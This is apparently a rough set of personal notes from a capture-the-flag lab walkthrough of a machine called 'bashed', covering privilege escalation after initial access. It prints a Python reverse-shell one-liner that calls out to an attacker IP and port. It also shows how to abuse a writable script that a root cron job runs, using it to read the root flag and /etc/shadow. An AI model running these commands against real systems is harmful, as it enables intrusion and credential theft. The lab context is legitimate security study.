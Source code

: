 Previously in... [[Enumeration]]

We found a terminal and we got our first [[flag]]

We also found a bad joojoo file that we can exploit ```:/home# sudo -l

  
Matching Defaults entries for www-data on bashed:  
env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL```

let's add our own bash code into it and run it on sudo for root access!

`bash -i`
hmm... we can't edit that file but we can make a nc shell OR wget a shell.sh to their dir
```
www-data@bashed
:/# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86\_64 x86\_64 x86\_64 GNU/Linux
```

`
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
`

```www-data@bashed

:/var/www# python \\-c 'import socket,subprocess,os;s=socket.socket(socket.AF\\\_INET,socket.SOCK\\\_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

  
File "", line 1  
import socket,subprocess,os;s=socket.socket(socket.AF\\\_INET,socket.SOCK\\\_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

[[etcpasswd]]

/usr/bin/gpasswd
-rwsr-xr-x 1 root root        40K Mar 29  2016 /usr/bin/chsh
```

CRON job exploit:

`
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ ls -la
`
`drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py < script manager access
-rw-r--r--  1 root          root            12 May 20 15:04 test.txt < Root access
`

`scriptmanager@bashed:/scripts$ echo "" > test.py
echo "" > test.py
scriptmanager@bashed:/scripts$ echo 'f=open("test.txt","w");g=open("/root/root.txt","r").read();f.write(g);f.close()' > test.py

<","w");g=open("/root/flag.txt","r").read();f.write(g);f.close()' > test.py  `

`scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
cc4f0afe3a1026d402ba10329674a8e2
scriptmanager@bashed:/scripts$ 
`

`echo 'f=open("test.txt","w");g=open("/etc/shadow.txt","r").read();f.write(g);f.close()' > test.py
`
